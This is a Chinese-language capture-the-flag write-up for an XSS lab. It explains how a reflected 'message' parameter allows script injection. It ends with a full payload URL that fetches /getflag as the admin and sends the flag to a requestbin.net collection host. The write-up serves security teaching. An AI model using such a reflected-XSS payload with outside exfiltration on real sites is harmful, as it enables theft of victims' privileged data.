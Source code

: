 # LAB - XSS Me
###### tags: `資安` `Web`

## 題目解析
題目是個登入頁面，帳密輸入框可以看到 guest 的 placeholder 值，還有一個比較特別的向 admin 回報錯誤，可以傳網址，這邊就是用程式的方式模仿一個虛擬 admin 收到我們回報的網址，點進去就可以得到 FLAG。

![](https://i.imgur.com/zphQuL5.png)

登入看看可以看到要 admin 帳號才能拿到 FLAG。

![](https://i.imgur.com/UuUiK3Y.png)

## 解題流程
guest 登入後再按登出可以看到一個 window alert，可以從網址上看到實際是傳了一個 message 參數，去觸發了 alert 的 function。
![](https://i.imgur.com/mXWjlsm.png)

所以我們可以試試改 message 的值，看能不能改變 alert 的訊息內容，看起來是可以。

![](https://i.imgur.com/en5IIbP.png)

既然可以控制內容，那或許就能做一些 XSS 攻擊，而我們要想辦法建構一個 URL，讓使用者點了之後，我們能看到結果，先 F12 來看一下 alert 部分的 code。

![](https://i.imgur.com/VB3LExk.png)

先用 \</script\> 把前面的 \<script\> tag 結束，再加一個 \<script\>就可以開始寫想要的 javascript 了，裡面我們用 ajax 的 fetch 來送 http request 到/getflag，就是剛剛要 admin 才能看到 FLAG 的頁面，然後取 response 的 text 再導到一個我們看的到的地方，這邊我們把 FLAG 當成一個參數傳到那個地方，這樣只要能攔截送往 location.href 那個網址的 http request，就可以再 URL 上看到FLAG。

要注意的是這邊的 loacation.href 要使用 Template literals，才能順利把參數寫進 URL，然後把後面加上註解符，理論上就可以順利執行我們的 javascript 了。

以整個流程來說可以想成某個 admin 點了這個連結，讓他送出了 /getflag 的 request，而他就是 admin 所以他的 respones 能拿到 FLAG，再由他主動送出帶 FLAG 參數的 request 到我們的 host。

如果你有自己的 host 就可以用 reverse shell 的方式，直接監聽 request 查看 header，如果沒有就可以跟我這邊一樣用 requestbin.net 的服務。
```
http://h4ck3r.quest:8800/?message=%3C/script%3E%3Cscript%3Efetch(`/getflag`).then(r=%3Er.text()).then(flag=%3Elocation.href=`http://requestbin.net/r/45bvuadz/?${flag}`)//
```

在我們的 requestbin 成功看到返回的 FLAG！
![](https://i.imgur.com/lDBIo00.png)

## FLAG 截圖
![](https://i.imgur.com/bptv2w7.png)

